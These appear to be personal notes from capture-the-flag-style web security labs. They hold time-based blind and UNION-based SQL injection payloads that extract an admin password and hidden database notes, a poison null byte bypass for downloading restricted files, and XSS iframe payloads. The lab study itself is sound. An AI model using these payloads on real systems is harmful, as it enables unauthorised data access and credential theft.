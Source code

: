 admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'users';--                                                        ← table name = users

https://website.thm/checkuser?username=admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'username';--                                                 ← column name = username
password is there too

admin123' UNION SELECT SLEEP(2),2 from users where username like 'admin';--    ←yup

admin123' UNION SELECT SLEEP(2),2 from users where username='admin' and password like 'a%

admin123' UNION SELECT SLEEP(2),2 from users where username='admin' and password like '4961';--

found it

----------------

SELECT firstName, lastName, pfpLink, role, bio FROM people WHERE id = 1'

GET /about/0 UNION SELECT 1,2,3,4,group_concat(column_name) FROM information_schema.columns WHERE table_name='people';-- HTTP/1.1

id,firstName,lastName,pfpLink,role,shortRole,bio,notes

GET /about/0 UNION SELECT 1,2,3,4,notes FROM people;-- HTTP/1.1

got our notes :)


poisoned 0 byte
We will now go back to the  http://10.10.121.223/ftp/ folder and try to download package.json.bak. But it seems we are met with a 403 which says that only .md and .pdf files can be downloaded. 

![[Images/image9.png]]

To get around this, we will use a character bypass called "Poison Null Byte". A Poison Null Byte looks like this: %00. 
Note: as we can download it using the url, we will need to encode this into a url encoded format.
The Poison Null Byte will now look like this: %2500. Adding this and then a .md to the end will bypass the 403 error!

![[Images/image26.png]]

Why does this work? 
A Poison Null Byte is actually a NULL terminator. By placing a NULL character in the string at a certain byte, the string will tell the server to terminate at that point, nulling the rest of the string. 

xss - running javascript

DOM (Special, HTML) XSS
`<iframe src="javascript:alert(`xss`)">`
pasting this into a search field

Persistent (Server-side) XSS
`10.10.54.43/#/track-result?id=<iframe src="javascript:alert(`xss`)">`
putting it after id= and such
